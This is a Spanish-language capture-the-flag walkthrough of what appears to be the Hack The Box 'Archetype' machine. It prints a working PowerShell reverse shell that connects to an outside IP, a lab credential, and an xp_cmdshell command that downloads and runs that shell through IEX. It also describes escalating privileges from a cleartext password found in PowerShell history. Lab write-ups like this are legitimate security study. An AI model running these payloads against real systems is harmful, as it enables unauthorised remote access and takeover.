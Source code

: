 Busque en [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) y encontré una reverse *Shell* en **PowerShell** que me permitia para ganar acceso a la máquina en una consola interactiva por Netcat, cree un archivo llamado shell.ps1 y meti el siguiente codigo.

```powershell 
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.155",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' 
```

Abrí un servidor por **Python** para descargar la reverse shell desde "mssqlclient" y una sesión de Netcat por el puerto 443, ejecute el siguiente comando para descargar la reverse *Shell*.

```powershell
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> xp_cmdshell "powershell "IEX (New-Object New.WebClient).DownloadString(\"http://10.10.14.155:8000/shell.ps1\");"
``` 

Y conseguí la Shell por Netcat.

![Captura de pantalla (596)](https://user-images.githubusercontent.com/69093629/123466698-ede46380-d5ef-11eb-8219-17e89df26f12.png)

La "flag" del usuario estaba en "C:\Users\sql_svc\Desktop\user.txt".

![Captura de pantalla (589)](https://user-images.githubusercontent.com/69093629/123467247-9266a580-d5f0-11eb-8ff9-9e9f4657ab06.jpg)

Tras una pequeña investigacion en el sistema logre encontrar un archivo que contenia una contraseña en texto claro, la ruta es "C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine".

Vi con CrackMapExec que privilegios tenia. 

![Captura de pantalla (591)](https://user-images.githubusercontent.com/69093629/123467866-48ca8a80-d5f1-11eb-80bf-324ba54b3107.png)

Dio Pwned, esto quiere decir que teníamos privilegios de autenticación por "psexec", quise variar un poco y decidí acceder por "winexe", la "flag" de **ROOT** estaba en "C:\Users\administrator\Desktop\root.txt".

![Captura de pantalla (592)](https://user-images.githubusercontent.com/69093629/123468232-ca221d00-d5f1-11eb-8dcb-5ee8f69309a9.jpg)





